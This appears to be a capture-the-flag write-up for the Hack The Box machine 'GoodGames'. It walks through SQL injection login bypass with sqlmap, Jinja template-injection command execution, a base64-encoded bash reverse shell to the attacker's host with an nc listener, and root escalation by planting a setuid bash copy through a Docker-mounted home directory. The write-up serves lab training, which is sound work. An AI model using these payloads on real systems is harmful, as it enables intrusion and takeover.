


---
tags:
  - Linux
  - HTTP
  - SQL Injection
  - SSTI
  - Docker escape
---

... is a easy HTB machine which offers a login window which is vulnerable to SQL injection. Bypassing the login or getting the login credentials reveals another sub-domain, which has a `SSTI` vulnerability, allowing you to execute code as `root` in a `Docker`. The `/home` directory of a system user is mounted within the container, which allows you to set the `SetUID` bit on a binary which elevates that user to `root`.

### Reconnaissance
The tool `nmap` is used to do the initial reconnaissance of any target, as it very reliably sends packets to specific ports of the target to verify if they are open, closed, or filtered. The following command is used as a standard `nmap` scan:
```bash
sudo nmap -sCV $IP
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: optional, but makes the scan a bit faster and stealthier, as no TCP connect() is used.
# -sC (or --script=default): uses the default scripts of nmap. can quickly discover simple vulnerabilities, such as anonymous logins.
# -sV: further scans open ports to determine the actual service which is running on them, as an open port 80 does not directly imply a HTTP service.
```

the output of `nmap` tells us this:
```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.9.2)
|_http-title: GoodGames | Community and Store
|_http-server-header: Werkzeug/2.0.2 Python/3.9.2
```
As this is a `http`-service only machine, i open the `burpsuite` browser to find out what it offers. The page offers a blog for games, where there a three buttons which can be clicked at the top right:

- `Blog`: shows all available blogs, not much use though.
- `Store`: feature which is not implemented.
- `Login`: pops up a window which asks for credentials.

At the bottom of the page, i can see the domain name `goodgames.htb`, which is why i add it to my `/etc/hosts` file as follows:
```bash
echo "$IP goodgames.htb" | sudo tee --append /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# echo "...": writes the specified string into STDOUT (terminal)
# | : redirect (pipe) the STDOUT of the left command into the STDIN of the right command
# sudo tee --append /etc/hosts: write the received STDIN into a file without overwriting it. requires sudo, as that file is critical to the system  
```

To find out if any other content is being hidden from me behind `VHosts`, i use `ffuf` for a dictionary attack against the `Host` header during `HTTP` requests:
```bash
ffuf -w /usr/share/dirb/wordlists/big.txt -H "Host: FUZZ.goodgames.htb" -u http://goodgames.htb -fs 85107
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -w: specify wordlist file
# -H: add specific header. Here, the header "FUZZ.goodgames.htb" is chosen. the FUZZ word is replaced by each entry of the wordlist!
# -u: URL of the target
# -fs: ignore all responses with the size 85107, as that is the default page
```

Sadly, this did not find any additional `VHosts`.

### Initial Exploitation
With login prompts i always try default credentials such as `admin:password`, `root:root` and so on. As this login form asks for an email, i enter a email with the domain `admin@goodgames.htb:password`, but the combinations always gave me a `500 Internal Server error`.  When trying to input SQL-related inputs such as `"` or `'`, i am blocked from pressing the `Sign in` button, as that is not a valid email address.

As no requests are made during this input check, i come to the conclusion that this check is solely done on client-side `javascript`. It can easily be bypassed by inputting correct values, and then messing with them in `burpsuite`. I intercept a login request and add a `'` at the end of `admin@goodgames.htb`. Funnily enough, this does not give me the `500 Internal Server Error`, but instead shows me the `Community and Store` page, which i have not seen before.

I further investigate this `SQL-Injection` by copying the whole request into a `test.req`, adding a `*` to the `email` parameter, and using the following `sqlmap` command to automate exploitation:
```bash
sqlmap -r request.req --batch --dump
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -r: specify the request file i just saved from burp
# --batch: automate Y/n requests
# --dump: dump the database
```

This took too long as the database also stored all comments written on the page. As the databases and names of tables were already found, i specifically wanted to dump the `user` table from the `main` database:
```bash
sqlmap -r request.req --batch -D main -T user --dump
```
This gave me the following output:


[Crackstation](https://crackstation.net/) told me that the password to this `MD5` hash is `superadministrator`!

While this time-based `sqlmap` command was fetching all contents from the database, i tried a simple SQL-Injection authentication bypass:
```http
email=admin@goodgames.htb' or '1'='1&password=admin
```
And this worked! this gave me a `session` cookie and told me that the login was successful!

Using the authentication bypass (or the password `superadministrator`), i am redirected to a `/profile` resource, where i can edit the password of the current user. At the top right i can now additionally access two buttons:

- `Logout` button: logs me out.
- `Settings` button: redirects me to `internal-administration.goodgames.htb`!

Due to this info, i add the new sub-domain to my `/etc/hosts` using this command:
```bash
sudo sed -i "s/$IP goodgames.htb/$IP goodgames.htb internal-administration.goodgames.htb/" /etc/hosts
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# sudo: required, as we are editing /etc/hosts
# -i: edit the file in-place and overwrite it
# "s/old_word/new_word/": replaces each occurance of old_word with new_word
# /etc/hosts: file we want to edit
```

This new subdomain showed me another login form, where i tried the combination of `admin:superadministrator` again, with success!

After looking through the page and the functions it offers, i notice something strange in the `Settings` tab. I am allowed to change the details of my current account, which are then displayed in a small window on the right. Due to this, i check for `XSS` and `SSTI`. Adding `HTML` tags such as `<b>` or `<h1>` does not change the output, but the payload `{{7*7}}` gets rendered as `49`, confirming `SSTI`! On the [HackTricks](https://hacktricks.wiki/de/pentesting-web/ssti-server-side-template-injection/index.html) page for `SSTI`, i try some payloads, and the following one displays the output of the command `id`:
```python
{{ namespace.__init__.__globals__.os.popen('id').read() }}
```
I quickly encode a reverse shell initiator in `base64`:
```bash
echo 'bash -c "/bin/bash -i >& /dev/tcp/<my-IP>/1337 0>&1"' | base64
```
Start a listener with `netcat`:
```bash
nc -lvnp 1337
```
<div class="annotate" markdown> (1) </div>

1. 
```bash
# -l: listen for inbound connects
# -v: verbose to get more info
# -n: numeric IP addresses, dont use DNS
# -p: specify listening port (1337)
```

And send the following payload to the target:
```python
{{ namespace.__init__.__globals__.os.popen('echo <base64> | base64 -d | bash -i').read() }}
```
This gives me the reverse shell as `root@3a453ab39d3d`. 

### Lateral Movement
Now i want to gain access to the actual system, not only the docker container which it is running. Executing `ip a` shows a different IP address than the target `$IP` of the machine, which is why i try to access that.

The output of `ls` confirms this, as i can see the `Dockerfile`. I can still read the `user.txt` at `/home/augustus/user.txt`. This is strange though, because i am `root` and can view the `/home` of a user which supposed to exist on the main system. I issue `mount | grep august` to find out if the `/home` directory of `augustus` was mounted onto the `docker` container, and it turns out to be true.

Now i want to access the actual `$IP` machine. Using the assigned `IP` address to that machine will probably not show any more open ports, as that accesses it from the `VPN`. If i find the internal IP-address, i can maybe access ports which are only accessible via `localhost`. A quick google search reveals [this stackoverflow question](https://stackoverflow.com/questions/22944631/how-to-get-the-ip-address-of-the-docker-host-from-inside-a-docker-container). The command `/sbin/ip route|awk '/default/ { print $3 }'` gives me the internal non-public facing `IP-address` of the host which i want to reach. 

I try to use `ssh augustus@$Internal-IP` with the password `superadministrator` and it gives me this error message:
```bash
Pseudo-terminal will not be allocated because stdin is not a terminal.
Host key verification failed.
```
This did not work, as i need to upgrade my current shell. I do so using the following command:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
After which, i can successfully `ssh` into the target machine as `augustus` using the password `superadministrator`!

### Privilege Escalation
I remember that the `/home/augustus` directory was mounted within the docker container, on which i have `root` access to. To exploit this, i make a copy of `/bin/bash` in the `/home/augustus` directory as `augustus`:
```bash
cp /bin/bash ./rootme
```
Then i do `CTRL+C` to get back into the `Docker` as `root`. There, i change the ownership of this `/home/augustus/rootme` to `root`, and set its `setuid` bit, so that `augustus` can execute that binary as the owner `root`:
```bash
chown root:root /home/augustus/rootme
```
```bash
chmod u+s /home/augustus/rootme
```
Going back to `ssh augustus@$Internal-IP`, i can become root by executing `./rootme -p`!

### Summary

Below is a visualized summary of the exploitation steps used in this machine to gain RCE.



The privilege escalation to the user `root` worked as follows:

